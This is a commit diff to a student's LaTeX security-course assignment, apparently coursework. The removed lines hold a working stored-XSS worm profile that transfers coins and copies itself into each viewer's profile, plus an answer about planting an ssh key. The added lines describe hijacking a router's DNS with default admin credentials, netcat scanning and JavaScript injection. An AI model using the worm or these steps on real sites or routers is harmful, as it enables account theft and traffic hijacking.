

Before and after one commit to wmak/Notes, a LaTeX document (CSC/D27/A3/A3.tex): two parts of pages 1 and 2 of 2 before the commit and part of the page after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Question 5

```diff
--- a/CSC/D27/A3/A3.tex
+++ b/CSC/D27/A3/A3.tex
@@ -47,36 +47,31 @@ See Email
 		possible.
 \end{enumerate}
 
-\section{Abuse of Set-UID File Permissions}
-Given 60 seconds of access to another student's unattended keyboard I would go
-into their "\$HOME/.ssh/authorized\_keys" file and add my own ssh key. This way
-later on I would be able to ssh into their computer without needing their
-password.
+\section{Web Security}
+See attached files for answers to A, D, E
 
-\section{Web Security}
-\begin{enumerate}
+\section{Wifi Router Vulnerabilities}
+\begin{enumerate}[A]
 	\item
-		The profile for this worm would be the following:
-\begin{verbatim}
-		Totally okay account
-		<a id="pancoins" class="
-		a = new XMLHttpRequest();
-		a.open('POST', 'transfer.php');
-		var b= new FormData();
-		b.append('pancoins',1);
-		b.append('recipient', 'panworm');
-		b.append('submission', 'Send');
-		a.send(b);
-		c = new XMLHttpRequest();
-		c.open('POST', 'index.php');
-		var d= new FormData();
-		d.append('profile_update',
-		document.getElementById('pancoins').outerHTML
-		);
-		d.append('profile_submit', 'Update');
-		c.send(d);
-		alert('thanks for all the fish')">
-\end{verbatim}
+		For this attack as an attacker I would first use db-ip.com to find all
+		possible Canadian addresses if I knew about this vulnerability with
+		Bell. Or if the screenshot is from his router then I would know that I
+		can go on 76.65.189.43.
+		Then I would use netcat to figure out which ports are open and see
+		which of them allow me to login with the authenticate
+		request(http://192.168.2.1/login?u=admin&p=admin). The ones that do I
+		would then send a new DNS server. With my new DNS server I would have
+		the google ip redirect to my kim.dot.com.
+	\item
+		Sitting outside of the professor's condo the attacker would be able to
+		send TCP packets to the router with a different source address. And
+		because the attacker would be right next to the router their address
+		would remain unchanged. Now the attacker can send the same requests as
+		before and modify the DNS
+	\item
+		A hacker could very easily inject some malicious javascript into
+		youvyou.com that would authenticate with the administrative account. And
+		then aftewards modify the DNS server yet again to set google to be
+		kim.dot.com
 \end{enumerate}
-
 \end{document}
```
